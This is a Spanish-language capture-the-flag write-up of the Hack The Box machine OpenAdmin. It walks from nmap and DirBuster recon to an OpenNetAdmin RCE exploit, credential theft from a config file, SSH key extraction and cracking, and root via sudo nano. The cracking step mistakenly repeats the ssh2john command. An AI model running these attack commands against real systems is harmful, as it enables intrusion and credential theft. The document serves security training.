 # HTB - OpenAdmin
Este es mi primer writeup asi como OpenAdmin(10.10.10.171) fue una de las primeras maquinas que resolvi. Espero que sea de ayuda al lector y H4ppy H4ck1ng!
## Escaneando puertos
Utilizando el comando:
```markdown
nmap -sS --open -p- -sV -T 4 10.10.10.171 
```
![imagen](https://user-images.githubusercontent.com/84255799/119300072-c16ead80-bc25-11eb-9a3c-61bf6bc1ea3f.png)

Del escaneo, se puede observar que la maquina tiene 2 puertos abiertos, se requieren usuarios para el login de SSh por lo que se procede a enumerar el puerto 80.

##Enumeración de directorios
Para este paso hice uso de DirBuster, ingrese los datos: URL: http://10.10.10.171:80/ y Wordlist: directory-list-lowercase-2.3-medium.txt.
La herramiento encontro los siguientes directorios:
![imagen](https://user-images.githubusercontent.com/84255799/119300552-8f118000-bc26-11eb-88c8-6c30854b43aa.png)

Probando esos directorios, encontre que el directorio /music tiene un boton de login que me redirecciona a OpenNetAdmin ver 18.1.1. Buscando en google, encontre que esa versión posee RCE(Remote Code Execution).

##Buscando acceso
Procedo a buscar exploits con el siguiente comando:
```markdown
searchsploit opennetadmin
```
![imagen](https://user-images.githubusercontent.com/84255799/119301075-81a8c580-bc27-11eb-8e87-5796ec89ace9.png)

Una vez copiado el exploit en nuestra carpeta de trabajo, debemos darle permisos para ejecución.
![imagen](https://user-images.githubusercontent.com/84255799/119301145-a2711b00-bc27-11eb-9887-94d2063c84bd.png)

Ejecutandolo con:
```markdown
./ona.sh http://10.10.10.171/ona/
```
Me da una shell:
![imagen](https://user-images.githubusercontent.com/84255799/119301280-d0565f80-bc27-11eb-9d99-24f7c772941f.png)

##Buscando credenciales
Procedo a buscar archivos que puedan darme pistas de cómo obtener acceso a un user.
![imagen](https://user-images.githubusercontent.com/84255799/119301374-fe3ba400-bc27-11eb-9979-f1e5ee69c922.png)

Leyendo ese archivo con:
```markdown
cat var/www/ona/local/config/database_settings.inc.php
```
Encontramos lo siguiente
![imagen](https://user-images.githubusercontent.com/84255799/119301592-570b3c80-bc28-11eb-8d91-890f011f8fd4.png)

Por lo que intento probar esa contraseña en los usuarios de la maquina
```markdown
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
La contraseña funcionó para Jimmy!
![imagen](https://user-images.githubusercontent.com/84255799/119301787-a2bde600-bc28-11eb-990f-b50693b4f08f.png)

##Escalando privilegios 
Buscando en los directorios de la maquina, encontre uno interesante
```markdown
cat /var/www/internal/main.php
```
![imagen](https://user-images.githubusercontent.com/84255799/119301945-e57fbe00-bc28-11eb-81fa-77a393343e78.png)

Esto me motiva a verificar si se esta utilizando algun otro puerto de forma interna en la maquina
```markdown
ss -ltu
```
![imagen](https://user-images.githubusercontent.com/84255799/119302096-2f68a400-bc29-11eb-96c8-bff28733c843.png)

Por lo que si realizamos Curl a la pagina en ese puerto
```markdown
curl localhost:52846/main.php
```
Encontramos una llave privada
![imagen](https://user-images.githubusercontent.com/84255799/119302205-5a52f800-bc29-11eb-9014-2adb7003b667.png)

###Crackeando password 
Para crackear una pass, mi primera opción es JohnTheRipper, pero antes procedo a ponerla en un formato que el John pueda aceptar
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```

Una vez hecho esto, procedo a crackearla
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```
![imagen](https://user-images.githubusercontent.com/84255799/119302468-c6356080-bc29-11eb-89a7-fcea46d065d1.png)

Cuando probamos esa clave, tenemos el acceso
```markdown
ssh -i id_rsa joanna@10.10.10.171
```
![imagen](https://user-images.githubusercontent.com/84255799/119302614-03015780-bc2a-11eb-8a1e-9ca4c21293e3.png)

Si leemos el user.txt tendremos la flag del user.
![imagen](https://user-images.githubusercontent.com/84255799/119302679-1d3b3580-bc2a-11eb-9364-46da0f308771.png)

###Ultimo paso
Comprobamos que permiso tiene Joanna
```markdown
sudo -l
```
![imagen](https://user-images.githubusercontent.com/84255799/119302790-507dc480-bc2a-11eb-9d61-d31a142d7866.png)

Joanna tiene permiso de ejecutar nano como root.

Por lo tanto,
```markdown
sudo /bin/nano /opt/priv
```
![imagen](https://user-images.githubusercontent.com/84255799/119302929-828f2680-bc2a-11eb-87ce-ae52b53a6321.png)

Para ir directamente a root.txt, busque el archivo y luego procedi a leerlo.
![imagen](https://user-images.githubusercontent.com/84255799/119302975-9aff4100-bc2a-11eb-8614-35dcc25a287d.png)

##Gracias por leer!
Espero te haya servido, proximamente publicaré más writeups.
